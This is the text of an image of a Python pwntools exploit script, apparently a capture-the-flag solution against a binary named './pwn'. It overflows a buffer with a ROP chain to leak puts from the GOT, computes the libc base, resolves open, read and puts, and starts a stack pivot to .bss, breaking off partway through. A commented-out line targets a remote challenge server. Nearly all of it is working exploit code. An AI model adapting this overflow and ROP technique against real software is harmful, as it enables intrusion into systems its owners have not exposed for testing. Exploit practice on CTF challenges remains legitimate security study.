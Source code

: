 ```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('139.196.183.57',32391)
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

puts_got = 0x404028#elf.got['puts']
puts_plt = 0x4010C4#elf.plt['puts']
ru("Greetings. Traveller from beyond the fog. I Am Melina. I offer you an accord.\n")
rdi=0x00000000004013e3
ret=0x000000000040101a

pl = 'a'*0x108 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(0x40125B)
sl(pl)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_addr - libc.sym["puts"]
#duan()
leak('libc_base ',libc_base)

open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']

ru("Greetings. Traveller from beyond the fog. I Am Melina. I offer you an accord.\n")

bss=0x404200#elf.bss()+0x100
pl='a'*0x100+p64(bss)+p64(0x401276)
s(pl)
pl='a'*0x100+p64(bss+0x100)+p64(0x401276)
```